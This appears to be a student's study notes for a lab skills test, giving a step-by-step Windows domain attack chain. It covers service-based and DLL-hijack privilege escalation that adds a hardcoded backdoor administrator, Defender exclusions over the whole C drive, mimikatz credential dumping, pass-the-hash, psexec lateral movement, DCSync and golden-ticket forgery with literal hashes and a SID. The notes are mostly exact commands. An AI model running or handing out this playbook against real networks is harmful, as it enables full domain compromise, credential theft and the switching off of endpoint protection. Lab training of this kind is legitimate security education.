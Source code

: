 >>> general

0) info
> within the notes there are some instructions on how to make certain files, but they can just be downloaded from the repository :)
> the dll, exe and msi files have been tested and should just work (username: Helpdesk & pass: L3tm3!n)
> if they don't work you'll have to make them yourself, the notes might help you with it

1) orientation
> ip's and names (hostname, dc-name, etc.) might be outdated for skills test
> use angry ip scanner if available
> look for services without description
> look for services with unquoted service paths
> look for services running as a named user account
> check "C:\Windows\Tasks Migrated" for weakly named tasks (single word names)
> check "\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" (imagepath edit)
> use -> accesschk -uwvc "normaluser" * <- (daclsvc)

2) files to download
> sysinternals suite > https://download.sysinternals.com/files/SysinternalsSuite.zip
> mimikatz > https://github.com/gentilkiwi/mimikatz
// > mike's dll + C code from OneDrive (if dll hijack)
// > bat2exe > https://github.com/islamadel/bat2exe/releases/download/2.1/bat2exe.exe > "access denied error"
// > bat to exe converter > https://bat-to-exe-converter-x64.en.softonic.com/ > should work (make sure to use the 64bit exe-format)

3) commands
> whoami (check current user in terminal)
> dir (list directory contents)
> net user (see users on machine)
> hostname (local domain name)
> echo %logonserver% (domain controller name)
> echo %path% (check path variables for dll hijack)

4) add user command
> net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> privilege escalation methods

1) remote mouse // not gonna be in the test (confirmed)
// > click on green icon bottom right
// > settings
// > under image transfer folder click "Change..."
// > click OK if prompted with error
// > go to C:\Windows\System32 and type "cmd"
// > right click cmd -> open (opens system cmd)
// > [add user command]

2) unquoted service path
> open services
> sort by description, so services without a description appear on top
> check if "path to executable:" has spaces and no quotes
> example -> C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
> look for writable directory, for example C:\Program Files\Unquoted Path Service
> services always expect an executable (.exe)
> create folder on desktop
> create batch file (.bat) with "[add user command]"
> place batch file inside folder
> use bat2exe on that folder (run bat2exe from cmd)
> rename to common.exe (for this example ofc)
> place exe in C:\Program Files\Unquoted Path Service
> run service
> net user in cmd to check if user is added
> if not, restart machine, run service and check again
> if you have executable rights, maybe run exe from cmd, who knows

3) weak file permission services
> example from lab: C:\Program Files\File Permissions Service\filepermservice.exe
> "filepermservice.exe" can be renamed
> check steps above to make own exe
> place exe inside C:\Program Files\File Permissions Service
> rename old .exe to whatever
> name your own exe to "filepermservice.exe"
> start service
> net user in cmd to check if user is added

4) weak registry permissions (regsvc)
> open registry editor
> go to \HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
> right click on imagepath -> select modify
> edit the value data so it points to an exe you control, or
> with bat2exe you can make a .exe that that adds an administrative user (see the notes above)
> open services
> look for the service that has the modified image path as the "path to executable"
> run the service

5) scheduled task
> "C:\Windows\Tasks Migrated" may contain tasks you can exploit / configure
> example from lab: pinger
> "C:\Windows\Tasks Migrated" contained the task "pinger"
> open task scheduler
> the "tasks migrated" folder shouldn't be in the folder tree
> go to action -> import task
> select "all files" on bottom right
> navigate to "C:\Windows\Tasks Migrated"
> open "pinger" or whatever task looks weak (only one word for example)
> go to triggers and see what triggers it
> go to action to see what it does and what file it triggers (.bat for example)
> check if the file is renamable and if the directory is writable
> rename the file to whatever
> place your own file (add administrative user through a batch file)

> open task in notepad (easier method than opening in task scheduler)

6) DACL service
> go to services
> check if there is a dacl service (daclsvc)
> open cmd
> go to where you stored your sysinternals
> accesschk -uwvc "normaluser" *
> it might say "RW daclsvc" (should mean you have read/write rights for the service actions listed)
> sc config daclsvc binpath="cmd /c cmd.exe /c net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add"
> run the service
> might have to do the sc command multiple times and run the service again

7) msi exploit
> open registry editor
> go to:
> Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
> and
> Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
> if both have "AlwaysInstallElevated" set to 1, .msi files will be executed with highest privileges
> you might be able to install a .exe to .msi converter on the host machine
> or easier, just use the .msi file from this repo

8) dll hijack
> last resort for privilege escalation
> go to services
> there may be a service that indicates a dll hijack
> go to the properties of the service to see the path and name of the .exe it calls
> copy the .exe to your own machine (drag n drop or shared folder)
> open cmd on own machine
> sc create ServiceName binPath= "C:\temp\name.exe" (insert name of .exe)
> run service you made
> open procmon (from sysinternals) on own machine
> click on filter icon (ctrl+L) and add the following 2 filters:
> [result] [is] [NAME NOT FOUND] -> click add
> [path] [ends with] [.dll] -> click add
> click ok
> click on process name to sort
> if the .exe and its dll have multiple entries (like 5+), the %path% variable might be used
> note down the name of the dll
> go back to the VM and open cmd
> echo %path%
> look if there is a writable directory listed (like C:\temp)
> go back to own machine
> download Mike's dll + C code from OneDrive if not done yet
> note down the the fake admin credentials after opening his C code in notepad
> rename dll to the name you noted down earlier
> copy dll to the VM
> place dll inside the directory you found in %path%
> run service
> net user in cmd to check if it worked

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> static steps after local priv escalation

1) defender exclusion:
> defender icon on bottom right (or type virus and threat protection in search)
> virus and threat protection
> manage settings
> add or remove exclusions
> use fake admin login (".\" for local account)
> add exclusion (folder)
> select c drive

2) download mimikatz/sysinternals
> store in c:\temp for easy access
> same with sysinternals suite

3) administrator hash
> open cmd with fake admin
> cd C:\temp\mimikatz_trunk\x64
> mimikatz
> privilege::debug
> sekurlsa::logonpasswords
> copy ntlm hash from administrator (session:service from 0)

4) priv escalation
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> dir \\192.168.56.30\c$ (to double check privilege)
> cd C:\temp\SysinternalsSuite
> psexec -r name \\192.168.56.30 cmd

5) admin machine
> whoami (should be administrator)
> cd C:\
> md temp (create temp dir)
> dir (check if temp directory was created
> powershell
> set-mppreference -exclusionpath C:\temp
> (get-mppreference).exclusionpath -> checks the exluded paths
> exit (exits out of PS)
> cd temp
> type "mimikatz" (do not run yet)

6) copying mimikatz to admin machine
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> in the new cmd window
> net use x: \\192.168.56.30\c$
> x:
> cd temp
> get ready to switch to admin window from step 5
> copy C:\temp\mimikatz_trunk\x64\*.* .
> immediately run mimikatz on admin machine
> successful if mimikatz is visible on admin machine

7) grab domain admin hash
> privilege::debug
> sekurlsa::logonpasswords
> copy domain admin hash (should be the first one)
> let teacher know if domain admin (domad) doesn't show up

8) dcsync on domain controller
> close both admin cmd windows (you dont need them anymore)
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:domad /domain:adlab.local ntlm:hash
> dir \\192.168.56.10\c$
> cd C:\temp\SysinternalsSuite
> mimikatz
> privilege::debug
> lsadump::dcsync /domain:adlab.local /all /csv
> copy krbtgt

9) golden ticket
> open a normal cmd windows
> whoami /user - copy everyting except last 4 digits
> go to mimikatz
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt

> or.. save for later
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt
> kerberos::ptt ticket.kirbi
> misc::cmd

> dir \\win2019dc\c$
